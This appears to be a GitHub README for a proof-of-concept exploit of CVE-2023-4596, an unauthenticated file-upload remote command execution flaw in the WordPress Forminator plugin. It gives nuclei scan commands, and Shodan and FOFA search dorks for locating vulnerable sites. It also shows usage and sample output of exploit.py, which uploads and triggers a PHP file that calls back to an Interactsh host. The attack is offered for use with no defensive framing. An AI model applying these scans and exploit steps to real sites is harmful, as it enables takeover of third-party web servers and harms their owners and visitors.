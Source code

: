 # CVE-2023-4596 
![](https://img.shields.io/static/v1?label=Product&message=Wordpress&color=blue)
![](https://img.shields.io/static/v1?label=Version&message=Forminator%20<=%201.24.6&color=brighgreen)
![](https://img.shields.io/static/v1?label=Vulnerability&message=CVSSv3:%209.8.%20Unauthenticated%20Remote%20Command%20Execution&color=red)

More information see [here.](https://securityonline.info/cve-2023-4596-critical-wordpress-plugin-forminator-flaw-affects-over-400k-sites/)

[Nuclei Template](https://github.com/projectdiscovery/nuclei-templates/pull/8118/files)

```
nuclei -target <target> -t CVE-2023-4596.yaml
```
```
nuclei -target <target_file> -t CVE-2023-4596.yaml
```
- Shodan dork:
```
http.html:"/wp-content/plugins/forminator"
```
- FOFA dork:
```
body="/wp-content/plugins/forminator"
```
### Usage
Generate [Interactsh link](https://app.interactsh.com/#/)
```
python3 exploit.py -u https://target-IP/?p=7
```
```
Input interactsh link: [Input here interactsh link]
  [+] Sending payload to target
  [+] Successful file upload!

Uploaded File Location: https://target-IP/wp-content/uploads/2023/08/QotTkAFBsf.php

  [+] Sending request to uploaded file...
  [+] Successfully triggered the uploaded file!
  [+] Check Interactsh for an incoming request.
```


